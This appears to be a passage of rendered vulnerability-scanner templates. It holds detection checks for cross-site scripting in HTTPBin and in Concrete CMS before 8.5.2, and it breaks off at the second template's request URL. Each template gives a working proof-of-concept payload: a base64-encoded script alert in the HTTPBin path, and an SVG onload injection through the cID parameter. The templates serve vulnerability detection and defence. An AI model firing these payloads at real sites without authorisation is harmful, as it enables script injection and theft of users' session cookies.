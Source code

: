 - HTTPBin contains a cross-site scripting vulnerability which can allow an attacker to execute arbitrary script. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - xss,httpbin,oss

## Requests

- Method - GET

### URL

- {{BaseURL}}/base64/PHNjcmlwdD5hbGVydChkb2N1bWVudC5kb21haW4pPC9zY3JpcHQ+

### Matchers

**Type - regex**

- part - body
- regex
  1. ^\<script>alert\(document.domain\)\</script>$

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Concrete CMS \<8.5.2 - Cross-Site Scripting

## Description

- Concrete CMS before 8.5.2 contains a cross-site scripting vulnerability in preview_as_user function using cID parameter.
- severity - high
- tags - hackerone,concrete,xss,cms,unauth

## Requests

- Method - GET

### URL

- {{BaseURL}}/ccm/system/panels/page/preview_as_user/preview?cID=">\</iframe>\<svg/onload=alert("{{randstr}}")>
